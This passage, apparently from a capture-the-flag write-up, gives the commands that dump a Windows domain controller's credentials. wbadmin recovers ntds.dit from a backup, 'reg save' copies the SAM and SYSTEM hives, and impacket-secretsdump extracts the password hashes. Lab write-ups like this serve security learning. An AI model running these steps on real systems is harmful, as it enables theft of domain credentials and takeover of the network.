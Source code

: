 Now we want to access the backup files to do that we need to specify a flag `notRestoreAcl`  which is valid when recovering file. 

```bash
wbadmin start recovery -version:04/21/2021-14:14<version_identifier> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Downloads -notRestoreAcl -quiet
```

Last this is to do is to dump the `SYSTEM` and `SAM` file from registers

```bash
reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
```


Finally....... 
lets crack the ntds.dit file

```bash
impacket-secretsdump LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
```

